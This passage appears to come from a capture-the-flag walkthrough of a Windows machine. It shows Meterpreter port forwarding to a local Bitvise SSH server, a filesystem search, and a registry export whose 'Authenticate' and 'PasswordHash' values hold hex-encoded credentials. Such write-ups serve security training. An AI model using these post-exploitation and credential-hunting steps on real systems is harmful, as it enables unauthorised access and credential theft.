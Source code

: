 To access it remotely we can use the `portfwd` command within meterpreter:

```
meterpreter > portfwd add -l 2020 -p 2020 -r 127.0.0.1
[*] Local TCP relay created: :2020 <-> 127.0.0.1:2020
```

It's some kind of SSH server: `Bitvise SSH Server (WinSSHD)`

```
# nc -nv 127.0.0.1 2020
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:2020.
SSH-2.0-7.44 FlowSsh: Bitvise SSH Server (WinSSHD) 7.44: free only for personal non-commercial use
```
	
I don't have the credentials so I looked for a while in the registry and eventually found a needle in the haystack.

```
meterpreter > search -f *nginx*
Found 14 results...
    c:\nginx\nginx.exe (3115008 bytes)
    c:\nginx\conf\nginx-orig.conf (2773 bytes)
    c:\nginx\conf\nginx.conf (6608 bytes)
    c:\nginx\conf\nginx.conf_bkp (4525 bytes)
    c:\nginx\contrib\geo2nginx.pl (1272 bytes)
    c:\nginx\contrib\unicode2nginx\unicode-to-nginx.pl (1090 bytes)
    c:\nginx\contrib\vim\ftdetect\nginx.vim (198 bytes)
    c:\nginx\contrib\vim\ftplugin\nginx.vim (29 bytes)
    c:\nginx\contrib\vim\indent\nginx.vim (250 bytes)
    c:\nginx\contrib\vim\syntax\nginx.vim (125645 bytes)
    c:\nginx\logs\nginx.pid (6 bytes)
    c:\ProgramData\Microsoft\User Account Pictures\nginx.dat
    c:\Users\All Users\Microsoft\User Account Pictures\nginx.dat
    c:\Windows\System32\nginx.reg (4268 bytes)
```	

The `nginx.reg` stands out:

```
C:\users\nelson>type c:\Windows\System32\nginx.reg
type c:\Windows\System32\nginx.reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):43,00,3a,00,5c,00,50,00,72,00,6f,00,67,00,72,00,61,00,6d,00,\
  20,00,46,00,69,00,6c,00,65,00,73,00,5c,00,6e,00,73,00,73,00,6d,00,5c,00,77,\
  00,69,00,6e,00,33,00,32,00,5c,00,6e,00,73,00,73,00,6d,00,2e,00,65,00,78,00,\
  65,00,00,00
"DisplayName"="Nginx"
"ObjectName"=".\\nginx"
"Description"="Nginx web server and proxy."
"DelayedAutostart"=dword:00000000
"FailureActionsOnNonCrashFailures"=dword:00000001
"FailureActions"=hex:00,00,00,00,00,00,00,00,00,00,00,00,03,00,00,00,14,00,00,\
  00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00
"Authenticate"=hex:48,00,37,00,33,00,42,00,70,00,55,00,59,00,32,00,55,00,71,00,39,00,55,00,2d,00,59,00,75,00,67,00,79,00,74,00,35,00,46,00,59,00,55,00,62,00,59,00,30,00,2d,00,55,00,38,00,37,00,74,00,38,00,37,00,00,00,00,00
"PasswordHash"="336d72676e6333205361797a205472794861726465722e2e2e203b440a"

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\nginx\Parameters]
"Application"=hex(2):43,00,3a,00,5c,00,6e,00,67,00,69,00,6e,00,78,00,5c,00,6e,\
  00,67,00,69,00,6e,00,78,00,2e,00,65,00,78,00,65,00,00,00
```